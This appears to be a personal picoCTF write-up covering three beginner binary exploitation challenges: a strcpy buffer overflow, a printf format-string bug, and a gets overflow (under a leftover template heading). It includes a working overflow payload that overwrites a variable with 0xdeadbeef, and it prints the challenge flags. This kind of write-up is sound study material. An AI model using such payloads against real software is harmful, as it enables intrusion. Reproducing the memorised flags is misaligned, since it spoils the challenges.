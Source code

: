 # 1. buffer_overflow_0

> Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.
Connect using:
## Solution:

In source.c  we see:
```

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```
where
```
char buf1[100];
vuln(buf1);
```
hence if we overflow the buf1 with more than 16 characters we get segfault

## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```


***
# 1. format_string_0

> Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc mimas.picoctf.net 58247
## Solution:

- The moment I opened the program I noticed this `printf(choice1)` and `printf(choice2)` this is very exploitable and that's how we cause the program to return the flag
we see in the serve patrik function the menu is
```
char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
```
In this we see the 2nd vlue which contains `%114d` this will expand to a random value > 114 which is great 2*BUFSIZE i.e. 64 which will cause the serve_bob() function to run

then we see the seve_bob()'s i.e.
```
"Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak",
```
here unlike before we got `%s` in the 3rd option this unlike before will result in segafult because of invalid pointer that printf will try to expand

## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}
```

# 1. Challenge name

> Put in the challenge's description here

## Solution:

This program has a gets function.In this we know the size of input buffer 256 bytes, if I pass 256 random things into the buffer we might be able to overflow it, so I do so with `python -c "a"*256` but still code is 0x00,maybe the codde buffer somewhere further so now  I pass 300 a's instead of 256 from where we get 
```
code == 0x6161616161616161
code != 0xdeadbeef :(
```
then I tried 260 a's which resulted in 0x00 again but then I tried 265 wihch resulted in `0x61` and when I try 264 it again results in `0x00` which means code starts at 265, so we can overwrite it, i convert deadbeef to to little endian bytes by this : 
```
import pwn
sth =  pwn.p64(0xdeadbeef)
print(sth)
```
and copied it after the a's and then echoed it using this 
```
echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde\x00\x00\x00\x00" | ./chall
```
which then I did the same with nc version

## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```


***


